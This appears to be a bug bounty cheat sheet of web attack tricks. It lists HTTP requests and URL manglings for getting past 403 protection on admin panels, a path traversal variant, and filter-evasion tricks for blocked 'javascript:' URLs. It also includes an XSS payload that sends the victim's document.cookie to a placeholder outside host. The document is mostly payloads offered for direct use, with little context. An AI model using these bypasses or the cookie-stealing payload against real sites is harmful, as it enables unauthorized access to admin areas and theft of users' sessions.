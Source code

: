 # Bug Bounty Tips
### Admin Panel Bypass tricks and techniques.
#### Example
```js
GET /admin HTTP/1.1
Host: web.com  ====> 403 Forbidden
```
#### Bypass
```js
GET /anything HTTP/1.1
Host: web.com
X-Original-URL: /admin  ====> 200 ok
```
#### Example
```js
/admin/panel  ====> 403 Forbidden
```
#### Bypass
```js
/admin/monitor  ====> 200 ok
/admin/monitor/;panel  ====> 302 Found
```
#### Example
```js
abc.com/admin  ====> 403 Forbidden
```
#### Bypass
```js
abc.com/admin/.  ====> 200 ok
abc.com//admin//  =====> 200 ok
abc.com/./admin/./ ====> 200 ok
abc.com/secret.txt/  ====> 403
abc.com/%2f/secret.txt/  ====> 200 ok
```
```js
https://abc.com/admin ===> 302
https://abc.com/admin..;/  ===> 200 ok
```
```js
sub.abc.com/web/admin/  ====> 302
sub.abc.com/web/aDmiN/  ====> 200 ok
sub.abc.com/web/aDmiN/FUZZ  ====> Sensitie Files
```
### Path Traversal
```js
https://abc.com/path ===> 403
https://abc.com%2e/path ===> 200 ok
```
### XSS Tip
##### Payload -1 
```js
">svg onx=() onload=(location.href='<BIN>/?mycookies='+document['cookie'])()>
```
##### EX
```js
"javascript:" xss blocked
```
##### Bypass
- add any number od \n,\t or \r in the middle of java\nScript:
- add characters from \x00-\x20 at the begining \x01javascript:
- Randomize thecase jaVAscrIpt: